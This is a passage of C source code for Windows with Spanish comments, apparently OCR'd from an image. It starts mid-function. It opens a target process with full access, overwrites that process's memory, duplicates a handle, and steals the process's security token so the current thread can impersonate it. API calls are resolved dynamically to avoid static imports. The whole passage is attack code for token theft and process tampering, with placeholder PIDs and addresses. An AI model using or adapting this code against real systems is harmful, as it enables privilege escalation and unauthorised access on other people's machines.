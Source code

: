 ```c
                if (!WriteProcessMemory(hProcess, mbi.BaseAddress, buffer, bytesRead, &bytesRead)) {
                    // Fallo al escribir en la memoria
                }
            }
        }
        baseAddress = (LPVOID)((ULONG_PTR)mbi.BaseAddress + mbi.RegionSize);
    }
}

void duplicateHandle(HANDLE hProcess, HANDLE targetHandle) {
    HANDLE dupHandle;
    DuplicateHandle_t DuplicateHandle = (DuplicateHandle_t)GetProcAddress(LoadLibraryA("kernel32.dll"), "DuplicateHandle");

    if (DuplicateHandle(hProcess, targetHandle, GetCurrentProcess(), &dupHandle, 0, FALSE, DUPLICATE_SAME_ACCESS)) {
        // Handle duplicado correctamente
    } else {
        // Error al duplicar el handle
    }
}

void extractToken(HANDLE hProcess) {
    HANDLE hToken, hDupToken;
    OpenProcessToken_t OpenProcessToken = (OpenProcessToken_t)GetProcAddress(LoadLibraryA("advapi32.dll"), "OpenProcessToken");
    DuplicateToken_t DuplicateToken = (DuplicateToken_t)GetProcAddress(LoadLibraryA("advapi32.dll"), "DuplicateToken");
    SetThreadToken_t SetThreadToken = (SetThreadToken_t)GetProcAddress(LoadLibraryA("advapi32.dll"), "SetThreadToken");

    if (OpenProcessToken(hProcess, TOKEN_QUERY | TOKEN_DUPLICATE, &hToken)) {
        if (DuplicateToken(hToken, 2 /* SecurityImpersonation */, &hDupToken)) {
            SetThreadToken(NULL, hDupToken);
        }
    }
}

int main() {
    DWORD targetPid = 1234;  // Reemplazar con el PID del proceso objetivo
    HANDLE hProcess;

    OpenProcess_t OpenProcess = (OpenProcess_t)GetProcAddress(LoadLibraryA("kernel32.dll"), "OpenProcess");

    // Abrir el proceso
    hProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, targetPid);
    if (hProcess) {
        // Fuzzear memoria de la DLL
        fuzzMemory(hProcess, (LPVOID)0x100000);  // Dirección base ficticia

        // Duplicar un handle (ejemplo)
        duplicateHandle(hProcess, (HANDLE)0x50);  // Handle ficticio

        // Extraer el token del proceso
        extractToken(hProcess);
    }

    return 0;
}
```
